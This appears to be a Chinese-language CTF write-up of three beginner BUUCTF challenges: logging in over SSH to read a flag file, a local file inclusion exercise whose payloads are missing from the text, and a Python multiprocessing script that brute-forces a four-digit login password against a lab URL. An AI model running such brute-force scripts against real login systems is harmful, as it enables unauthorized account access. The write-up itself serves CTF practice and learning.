

# Linux Labs 1


点击http链接进入Index of

四个链接皆无反应，重新观察



给出了 ssh 以及映射地址和端口（这个地址+端口是随机的)


CMD 输入ssh 指令格式：ssh -p 端口 用户名@地址
然后输入密码123456（cmd界面不显示输入密码）


输入**ls**


显示空白，证明刚连上就进入的文件夹是个空文件夹

返回上级目录

输入cd ..

输入ls


可以发现有flag.txt文件

输入cat flag.txt


得到flag

# BUU LFI COURSE 1


通过代码审计得知是需要用get方式传递一个参数
首先我们尝试直接获取flag


输出界面未显示flag，猜想可能是在[根目录](https://so.csdn.net/so/search?q=根目录&spm=1001.2101.3001.7020)下，所以构造payload

使用


or


获得flag


# BUU BRUTE 1


多次试验得出用户名为admin

得到提示：密码为四位数字

使用python脚本进行多进程或多线程发送 HTTP 请求破解密码

```python
import requests
import multiprocessing


def crack_password(password):
    url = "http://c3b2bda1-d359-4c13-8db5-42b241e9ed56.node4.buuoj.cn:81/"
    params = {"username": "admin", "password": str(password)}
    response = requests.get(url, params=params)
    if response.text != "密码错误，为四位数字。":
        print("密码为：" + str(password))
        return True
    return False


if __name__ == "__main__":
    pool = multiprocessing.Pool(processes=4)  # 设置进程数为 4
    for i in range(1000, 9999):
        print("破解到：" + str(i))
        result = pool.apply_async(crack_password, (i,))
        if result.get():
            break
    pool.close()
    pool.join()
```

得到密码：6490


输入密码得到flag

